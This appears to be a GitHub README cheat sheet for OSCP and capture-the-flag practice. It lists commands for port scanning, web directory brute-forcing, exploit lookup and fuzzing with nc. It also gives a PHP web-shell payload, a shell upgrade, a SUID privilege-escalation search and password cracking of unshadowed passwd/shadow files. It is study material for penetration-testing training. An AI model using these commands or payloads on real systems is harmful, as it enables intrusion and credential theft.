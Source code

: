 

# OSCP
OSCP / CTF

```
ENUM
Portscan all Ports
sudo nmap -sS -p- <ip>

Portscan with Scripts and Fingerprinting
sudo nmap -sS -sV -sC -p22,80,9000 <ip>

Web Vuln-Scan
nikto -host 192.168.56.205

Web Enum BruteForce
gobuster -t 100 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<host>
https://github.com/danielmiessler/SecLists
big wordlist:
wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Discovery/Web-Content/dirsearch.txt
gobuster -t 100 dir -w big.txt -u http://<host>
  
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://<ip>/FUZZ -t 500
ffuf -c -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt -u http://<ip>/config/FUZZ -t 500 -mc 200
```


CVE / Exploit Search
searchsploit <name>
searchsploit -p <id>
cp <path> .

Fuzzing 
python -c 'print("A" * 5000)' | nc <ip> <port>
  
php shell command
"<?php system('id'); ?>"

upgrade shell
python3 -c 'import pty; pty.spawn("/bin/bash")'

SUID BINARY
find / -perm -g=s -o -perm -u=s -type f 2>/dev/null

Crack Password with John
unshadow passwd.txt shadow.txt > unshadow.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadow.txt 


```bash
bash urlencode
echo $( php -r "echo urlencode('Start: #1, Zeichen {13/24} Ende();');"; )
#!/bin/bash
echo $( php -r "echo urlencode(\"$1\");"; )
urlencode.sh 'string zum encodieren'
```
  

